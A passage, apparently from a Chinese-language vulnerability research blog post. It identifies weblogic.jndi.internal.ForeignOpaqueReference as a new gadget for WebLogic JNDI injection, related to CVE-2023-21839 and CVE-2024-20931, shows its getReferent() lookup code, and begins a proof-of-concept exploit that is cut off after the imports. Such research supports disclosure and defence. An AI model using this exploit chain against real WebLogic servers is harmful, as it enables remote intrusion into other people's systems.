 ![image-20240221172407635](assets/1709255451-f5607b5f988bdc270833bdece5c3db7d.png)

是不是还能找到其他实现了`OpaqueReference`接口的利用类

然后找到`weblogic.jndi.internal.ForeignOpaqueReference`

乍一看以为是前面的`weblogic.deployment.jms.ForeignOpaqueReference` ，但是这个类比它简单很多

查看该类的`getReferent()`

```java
public Object getReferent(Name name, Context ctx) throws NamingException {  
        InitialContext context;  
        if (this.jndiEnvironment == null) {  
            context = new InitialContext();  
        } else {  
            Hashtable properties = this.decrypt();  
            context = new InitialContext(properties);  
        }  

        Object retVal;  
        try {  
            retVal = context.lookup(this.remoteJNDIName);  
        } finally {  
            context.close();  
        }  

        return retVal;  
    }
```

完美！可用！

POC 如下：

```java
import javax.naming.Context;  
import javax.naming.InitialContext;  
import java.lang.reflect.Field;  
import java.util.Hashtable;  
//import weblogic.deployment.jms.ForeignOpaqueReference; //CVE-2023-21839+CVE-2024-20931  
import weblogic.jndi.internal.ForeignOpaqueReference;  
import javax.naming.LinkRef;  
import com.rsa.jsafe.JSAFE_InvalidUseException;  
public class Main {  
    public static void main(String[] args) throws Exception {  
        String JNDI_FACTORY = "weblogic.jndi.WLInitialContextFactory";  

        // 创建用来远程绑定对象的 InitialContext  
```